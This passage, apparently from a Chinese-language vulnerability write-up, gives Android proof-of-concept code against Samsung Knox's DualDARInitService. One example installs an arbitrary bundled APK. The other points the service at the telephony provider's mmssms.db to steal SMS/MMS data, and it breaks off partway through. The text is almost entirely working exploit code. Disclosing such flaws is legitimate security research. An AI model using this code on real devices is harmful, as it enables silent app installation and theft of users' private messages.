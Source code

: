 ```
       }
   }
}
```

安装任意应用程序的概念证明
-------------



```
protected void onCreate(Bundle savedInstanceState) {
   super.onCreate(savedInstanceState);

   try {
       Bundle bundle = new Bundle();
       bundle.putString("dualdar-config-client-package", "test.exampleapp");
       bundle.putString("dualdar-config-client-location", Uri.fromFile(copyFile()).toString());

       Intent i = new Intent("com.samsung.android.knox.containercore.provisioning.DualDARInitService");
       i.setClassName("com.samsung.android.knox.containercore", "com.samsung.android.knox.containercore.provisioning.DualDARInitService");
       i.putExtra("DualDARServiceEventFlag", 500);
       i.putExtra("DUAL_DAR_IS_WPCOD", true);
       i.putExtra("DUAL_DAR_PARAMS", bundle);
       startService(i);
   }
   catch (Throwable th) {
       throw new RuntimeException(th);
   }
}

private File copyFile() throws Throwable {
   File file = new File(getApplicationInfo().dataDir, "app.apk");

   InputStream i = getAssets().open("app-release.apk");
   OutputStream o = new FileOutputStream(file);
   IOUtils.copy(i, o);
   i.close();
   o.close();
   return file;
}

```

SMS/MMS 文件盗窃的概念证明
-----------------

```
protected void onCreate(Bundle savedInstanceState) {
   super.onCreate(savedInstanceState);

   startDump();

   try {
       File dbPath = new File(getPackageManager().getApplicationInfo("com.android.providers.telephony", 0).dataDir, "databases/mmssms.db");

       Bundle bundle = new Bundle();
       bundle.putString("dualdar-config-client-package", "test.exampleapp");
       bundle.putString("dualdar-config-client-location", Uri.fromFile(dbPath).toString());

       Intent i = new Intent("com.samsung.android.knox.containercore.provisioning.DualDARInitService");
```